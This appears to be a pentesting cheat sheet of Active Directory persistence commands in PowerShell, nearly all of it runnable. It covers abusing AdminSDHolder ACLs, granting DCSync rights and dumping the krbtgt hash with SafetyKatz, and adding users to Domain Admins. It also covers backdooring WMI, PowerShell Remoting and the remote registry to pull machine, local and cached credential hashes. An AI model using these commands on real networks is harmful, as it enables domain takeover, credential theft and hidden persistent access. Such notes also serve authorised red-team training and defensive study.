 # Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerView

### AdminSDHolder
**Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA:** 
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=contoso,dc=local' -PrincipalIdentity studentuser1 -Rights All -PrincipalDomain contoso.local -TargetDomain techcorp.local -Verbose
```

**ResetPassword permission:**
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=Systems,dc=contoso,dc=local' - PrincipalIdentity studentuser1 -Rights ResetPassword - PrincipalDomain us.contoso.local -TargetDomain us.contoso.local - Verbose
```

**Use [Invoke-SDPropagator.ps1](https://github.com/theyoge/AD-Pentesting-Tools/blob/main/Invoke-SDPropagator.ps1) to manually run SDProp:**
```powershell
# Post-Server 2008 machines:
Invoke-SDPropagator -timeoutMinutes 1 -showProgress - Verbose

# Pre-Server 2008 machines:
Invoke-SDPropagator -taskname FixUpInheritance - timeoutMinutes 1 -showProgress -Verbose
```

**Check if permissions were added correctly:**
```powershell
Get-DomainObjectAcl -Identity 'Domain Admins' - ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuser1"}
```

**FullControl abuse:**
```powershell
# PowerView
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

# Native PowerShell
Net group "domain admins" testda /add /domain
```

**ResetPassword abuse:**
```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText - Force) -Verbose
```

### DCSync

**Add FullControl permissions for a user to the domain using PowerView as DA:**
```powershell
Add-DomainObjectAcl -TargetIdentity "dc=contoso,dc=local" -PrincipalIdentity studentuser1 -Rights All -PrincipalDomain contoso.local -TargetDomain contoso.local -Verbose
```

**DCSync permission:**
```powershell
Add-DomainObjectAcl -TargetIdentity "dc=contoso,dc=local" -PrincipalIdentity studentuser1 -Rights DCSync -PrincipalDomain contoso.local -TargetDomain contoso.local -Verbose
```

**Execute DCSync and dump krbtgt:**
```powershell
SafetyKatz.exe "lsadump::dcsync /user:contoso\krbtgt" "exit"
```

### WMI
https://github.com/samratashok/RACE

**On a local machine:**
```powershell
Set-RemoteWMI -Username studentuser1 -Verbose
```

**On a remote machine without explicit credentials:**
```powershell
Set-RemoteWMI -Username studentuser1 -Computername us-dc -namespace ‘root\cimv2’ -Verbose
```

**On a remote machine with explicit credentials, only root/cimv and nested namespaces:**

```powershell
Set-RemoteWMI -Username studentuser1 -Computername us-dc -Credential Administrator -namespace ‘root\cimv2’ -Verbose
```

**On remote machine remove permissions:** 
```powershell
Set-RemoteWMI -SamAccountName studentuser1 -ComputerName us-dc -Remove
```

### PowerShell Remoting

**On a local machine:**  
```powershell
Set-RemotePSRemoting -Username studentuser1 -Verbose
```

**On a remote machine without credentials:**  
```powershell
Set-RemotePSRemoting -Username studentuser1 -Computername us-dc -Verbose
```

**On a remote machine remove permissions:**  
```powershell
Set-RemotePSRemoting -Username studentuser1 -Computername us-dc -Remove
```

### Remote Registry 

**Using DAMP with admin privs on remote machine:**  
```powershell
Add-RemoteRegBackdoor -Computername studentuser1 -Trustee us-dc -Verbose
```

**Retrieve machine account hash from local machine:**  
```powershell
Get-RemoteMachineAccountHash -Computername us-dc -Verbose
```

**Retrieve local account hash from local machine:**  
```powershell
Get-RemoteLocalAccountHash -Computername us-dc -Verbose
```

**Retrieve domain cached credentials from local machine:**  
```powershell
Get-RemoteCachedCredential -Computername us-dc -Verbose
```
